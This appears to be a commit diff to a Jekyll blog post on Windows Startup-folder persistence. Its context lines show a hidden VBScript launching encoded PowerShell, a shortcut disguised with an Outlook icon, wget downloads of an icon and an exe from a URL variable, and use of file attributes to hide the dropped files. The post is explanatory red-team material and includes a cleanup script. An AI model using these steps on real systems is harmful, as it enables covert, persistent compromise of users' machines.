

Before and after one commit to ricardojoserf/ricardojoserf.github.io, a Jekyll site: the page built from _posts/2024-1-23-startupfolder.md, in a window 1280 px wide and 1400 px high, scrolled down 2806 px. Shown: the whole window at 91% size, without its empty margins (118-1161 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2024-1-23-startupfolder.md

````diff
--- a/_posts/2024-1-23-startupfolder.md
+++ b/_posts/2024-1-23-startupfolder.md
@@ -61,7 +61,7 @@ Could we encode the Powershell command? Of course, but it is even better if we a
 
 To avoid any windows appearing in the screen, we will use a VBScript file. For example, the following script will execute an encoded powershell command which will call "c:\ProgramData\Outlook\OutlookUpdate.exe". If we create this file in the Startup folder, the program will get executed and there will be no window popping the user could ever see:
 
-```
+```powershell
 Set objShell = WScript.CreateObject(""WScript.Shell"")
 objShell.Run(""powershell -e YwA6AFwAUAByAG8AZwByAGEAbQBEAGEAdABhAFwATwB1AHQAbABvAG8AawBcAE8AdQB0AGwAbwBvAGsAVQBwAGQAYQB0AGUALgBlAHgAZQA=""), 0, True
 ```
@@ -73,7 +73,7 @@ But, knowing the folder contains mostly shortcuts, maybe it makes more sense if
 
 Furthermore, we will change the shortcut icon to a more reliable-looking one, and for this example we will use an Outlook icon. We can generate the file shortcut using WScript:
 
-```
+```powershell
 $WshShell = New-Object -comObject WScript.Shell
 $Shortcut = $WshShell.CreateShortcut("$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile")
 wget $Url/$IcoFile -Outfile $Dir\$IcoFile
@@ -95,7 +95,7 @@ We will drop the icon and EXE file and generate the shortcut and the VBScript fi
 
 We can use the "hidden" attribute so the files are not visible in the folder (by default, even if you probably have File Explorer configured to see hidden items) or running "dir" (you should run "dir /a" to see these hidden files). For this we could use:
 
-```
+```powershell
 attrib -h C:\ProgramData\Outlook\OutlookUpdate.exe
 ```
 
@@ -107,7 +107,7 @@ From my tests, it is important to notice that the shortcut file can not be "hidd
 
 This process is automated in the following [script](https://gist.github.com/ricardojoserf/d021310080ea34c8c6187d82065dde85):
 
-```
+```powershell
 $Url = "http://127.0.0.1:8080"
 $Dir="C:\ProgramData\Outlook"
 $ExeFile = "notmalicious.exe"
@@ -151,7 +151,7 @@ cmd /c "dir /a ""$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Men
 
 And this is the [script](https://gist.github.com/ricardojoserf/6e1a242e77a52c78b630af22d5709153) to delete the files generated for the persistence (basically you have to unset the "hidden" attribute before deleting a file, you could also delete the folder but I think it is risky to do that in a script):
 
-```
+```powershell
 $Dir="C:\ProgramData\Outlook"
 $ExeFile = "notmalicious.exe"
 $VbsFile = "CheckUpdate.vbs"
````
